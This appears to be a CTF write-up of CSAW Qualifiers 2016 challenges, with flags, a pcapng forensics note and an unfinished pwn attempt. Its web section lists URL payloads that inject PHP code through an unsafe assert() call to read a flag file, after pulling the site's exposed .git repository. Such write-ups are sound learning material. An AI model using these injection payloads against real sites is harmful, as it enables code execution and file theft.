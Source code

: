 # CSAW Qualifiers 2016 File Dump

# "Notesy 2.0" 1: (Solved)

Problem: "Remember last year?"

Flag: `abcdefghijklmnopqrstuvwxyz`

# "Kill" Forensics 50: (Solved)

Problem: "Is kill can fix? Sign the autopsy file?"

Solution: File is a corrupted `.pcapng`.  It will not open in Wireshark or tcpdump.  File is readable in text editor.  Used `file_search.py` to find the flag.

Flag: `flag{roses_r_blue_violets_r_r3d_mayb3_harambae_is_not_kill}`


# "MFW" Web 125: (Solved)

Problem: "Hey, I made my first website today. It's pretty cool and web7.9."

Solution: Remote code execution through URL.  Attached Burp as a proxy to my browser.  Inspected the HTML, and notice possible `?/page=flag`.
The site also points out how it is built with git `http://web.chal.csaw.io:8000/.git/config` is accessible.  
I utilized a [DVCS-ripper](https://github.com/kost/dvcs-ripper) to download the repository.
Attempted file inclusion, but like the code shows it is not feasible.  
After anaylzing the code I ran it locally and tried many different URLs.  I added a debug line of `echo("<script>console.log( 'Debug Objects: " . assert("file_exists('$file')") . "' );</script>");`  I then ran the following urls:

1. `http://web.chal.csaw.io:8000/?page=phpinfo();`
2. `http://web.chal.csaw.io:8000/?page=http://web.chal.csaw.io:8000/templates/flag.php`
3. `http://web.chal.csaw.io:8000/?page=file_get_contents(%22/templates/flag.php%22);`
4. `http://web.chal.csaw.io:8000/?page= flag')%26%26file_get_contents('/templates/flag`
5. `http://web.chal.csaw.io:8000/?page=flag%27)||die(%27templates/flag`
6. `http://web.chal.csaw.io:8000/?page=flag%27%29||var_dump%28file_get_contents%28%27templates/flag.php%27%29%29;//`

The php code has [seemingly interesting defense](https://www.exploit-db.com/papers/12871/) built into it to distract someone at first through defeating a local file inclusion `assert("strpos('$file', '..') === false")`.
But `assert()` will execute PHP code, and thus that is it's weak point.

Flag: `flag{3vald_@ss3rt_1s_best_a$$ert}`


# "Warmup" PWN 50: (Attempted):

What I did: Ran `file warmup`: `warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped`.  
Exposing a pointer that is the address of `easy`. `_gets` is taking in 0 and a pointer.
